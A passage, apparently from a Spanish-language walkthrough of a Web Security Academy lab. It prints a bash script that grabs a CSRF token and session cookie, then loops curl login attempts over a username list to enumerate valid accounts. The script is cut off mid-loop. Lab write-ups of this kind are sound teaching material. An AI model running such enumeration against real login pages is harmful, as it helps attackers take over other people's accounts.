 Corriendo el escript obtenemos lo siguiente:

![run](img15.png)

Verificando en la web, notamos que si es valido.

![user valid](img16.png)

Ahora agregamos ese error a la lista de respuesta que demuestran que la contraseña es incorrecta y corremos el nuevo script es cual sería

```bash
#!/bin/bash

URL='https://ac681ff01fdae0fd800c26bb00a700dc.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`
VALID=0
for USER in `cat user.txt`
do
    echo "Probando para USER=$USER"
    for i in `seq 1 4`
    do
	    DATA='csrf='$CSRF'&username='$USER'&password=a'
	    RESULT=`curl $URL -d $DATA -b $COOKIE -s`

	    if echo $RESULT | grep -oP "Invalid username or password." > $NULL
	    then
		    echo -ne ""
	    else
		    echo "Valid user: $USER"
		    VALID=1
		    break
```
